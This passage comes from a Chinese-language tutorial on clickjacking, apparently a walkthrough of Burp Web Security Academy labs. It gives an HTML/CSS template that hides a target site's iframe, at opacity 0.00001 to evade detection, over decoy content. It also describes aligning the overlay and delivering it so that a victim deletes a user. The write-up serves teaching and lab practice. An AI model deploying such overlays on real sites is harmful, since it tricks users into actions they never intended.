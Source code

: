 ```
&lt;head&gt;
  &lt;style&gt;
    #target_website `{`
      position:relative;
      width:128px;
      height:128px;
      opacity:0.00001;
      z-index:2;
      `}`
    #decoy_website `{`
      position:absolute;
      width:300px;
      height:400px;
      z-index:1;
      `}`
  &lt;/style&gt;
&lt;/head&gt;
...
&lt;body&gt;
  &lt;div id="decoy_website"&gt;
  ...decoy web content here...
  &lt;/div&gt;
  &lt;iframe id="target_website" src="https://vulnerable-website.com"&gt;
  &lt;/iframe&gt;
&lt;/body&gt;
```

我们通过css让iframe层在原本页面层的上面，然后调整位置与页面中的诱导物重合，为了避免透明度检测，所以透明度设置了尽可能地最低。

### <a class="reference-link" name="%E9%85%8D%E5%A5%97%E9%9D%B6%E5%9C%BA%EF%BC%9A%E4%BD%BF%E7%94%A8CSRF%20Token%E9%98%B2%E6%8A%A4%E7%9A%84%E5%9F%BA%E7%A1%80%E7%82%B9%E5%87%BB%E5%8A%AB%E6%8C%81"></a>配套靶场：使用CSRF Token防护的基础点击劫持

因为点击劫持不管怎么看都是由用户真实发出的请求，所以CSRF Token对于点击劫持是没有防护效果的。点击劫持的重点就是要对准，因为梨子使用的是Firefox Deleoper版，有一个标尺工具可以让我们精准地获取按钮的位置。

[![](https://p4.ssl.qhimg.com/t018e104773617ad3f4.png)](https://p4.ssl.qhimg.com/t018e104773617ad3f4.png)

得到准确的尺寸以后我们就可以构造payload了

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t018fb472096ade59a7.png)

然后将其存储到Exploit Server，当受害者接收到投放的页面以后就会因为点击劫持删除指定用户，这里要注意的是，千万不要自己点，因为删除操作只能执行一次，如果误删了，要等当前的靶场环境过期了才能再次开启靶场，而且靶场过期的时间是大约20分钟，burp并没有给出具体过期时间，这将是非常漫长的等待。

[![](https://p4.ssl.qhimg.com/t017b484896dc9520c5.png)](https://p4.ssl.qhimg.com/t017b484896dc9520c5.png)

### <a class="reference-link" name="%E4%BD%BF%E7%94%A8%E9%A2%84%E5%A1%AB%E5%85%85%E8%A1%A8%E5%8D%95%E8%BE%93%E5%85%A5%E7%9A%84%E7%82%B9%E5%87%BB%E5%8A%AB%E6%8C%81"></a>使用预填充表单输入的点击劫持
